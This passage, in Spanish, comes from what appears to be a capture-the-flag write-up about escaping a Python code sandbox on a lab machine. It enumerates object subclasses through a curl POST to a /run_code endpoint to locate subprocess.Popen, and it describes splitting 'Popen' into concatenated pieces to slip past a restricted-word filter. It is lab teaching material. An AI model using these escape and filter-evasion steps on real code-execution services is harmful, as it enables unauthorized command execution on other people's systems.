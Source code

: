 ~~~ bash
().__class__.__bases__[0].__subclasses__()

# Alternativa
object.__subclasses__()
~~~

Esto mostrará todas las subclases disponibles, nuestro objetivo es buscar alguna que nos ayude a ejecutar comandos, tales como `os.system` o `subprocess.Popen`

![image-center](/assets/images/posts/code-sandbox-escape.png)
{: .align-center}

Intentaremos ver las subclases cargadas dentro del contexto actual con el siguiente comando, en este caso, encontraremos `sbuprocess`

~~~ bash
curl -sX POST http://10.10.11.62:5000/run_code -d "code=print(object.__subclasses__())" | tr ',' '\n' | grep subprocess

 <class 'subprocess.CompletedProcess'>
 <class 'subprocess.Popen'>
 <class 'asyncio.subprocess.Process'>
~~~

> `subprocess.Popen()` es una función dentro de `python` que nos permite ejecutar cualquier comando en el sistema a través de la creación de un proceso secundario.
{: .notice--info}

El siguiente código busca el valor índice de la función `Popen`

> Nota cómo aprovechamos la concatenación para romper la palabra `Popen` en `'Po' + 'Pen'` y así evitar el filtro de palabras restringidas
{: .notice--warning}

